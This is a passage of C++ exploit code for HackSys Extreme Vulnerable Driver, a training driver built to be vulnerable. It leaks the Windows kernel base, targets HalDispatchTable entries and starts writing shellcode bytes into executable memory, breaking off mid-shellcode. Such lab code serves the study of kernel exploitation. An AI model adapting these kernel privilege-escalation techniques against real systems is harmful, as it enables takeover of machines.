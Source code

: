 ```
    PNtQuerySystemInformation NtQuerySystemInformation =(PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),"NtQuerySystemInformation");
 
    if (!NtQuerySystemInformation){
        cout << "[!] Failed to Get the Address of NtQuerySystemInformation." << endl;
        cout << "[!] Last Error:" << GetLastError() << endl;
        exit(1);
    }
 
    ULONG len = 0;
 
    //Get Buffer Length
    NtQuerySystemInformation(SystemModuleInformation,NULL,0,&len);
 
    //Allocate Memory
    PSYSTEM_MODULE_INFORMATION PModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL,len,MEM_RESERVE | MEM_COMMIT,PAGE_EXECUTE_READWRITE);
 
    //Get SYSTEM_MODULE_INFORMATION
    NTSTATUS Status = NtQuerySystemInformation(SystemModuleInformation,PModuleInfo,len,&len);
 
    if (Status != (NTSTATUS)0x0){
        cout << "[!] NtQuerySystemInformation Failed!" << endl;
        exit(1);
    }
 
    PVOID KernelImageBase = PModuleInfo->Modules[0].ImageBaseAddress;
 
    cout << "[>] Kernel base address: 0x" << hex << KernelImageBase << endl;
 
    return (INT32)KernelImageBase;
}
 
int main() {
 
    HANDLE hFile = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);
 
    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No Handle to HackSysExtremeVulnerableDriver" << endl;
        exit(1);
    }
 
    cout << "[>] Handle to HackSysExtremeVulnerableDriver: 0x" << hex << (INT32)hFile << endl;
 
    INT32 KrBase = GetKernelBaseAddress();
    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;
    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;
    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x912
    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);
    ZeroMemory(SC, 0x60);
    __asm {
        pushad;
        mov eax, HalSetSystemInformation_Address;
        mov ebx, HalQuerySystemInformation_Address;
        mov edi, SC;
        mov[edi], 0x60;
        mov dword ptr[edi + 0x1], 0x000000E8;
        mov dword ptr[edi + 0x5], 0x588B5800;
        mov dword ptr[edi + 0x9], 0x4F488B4B;
        mov dword ptr[edi + 0xD], 0xEA81138B;
        mov dword ptr[edi + 0x11], 0x00000912;
```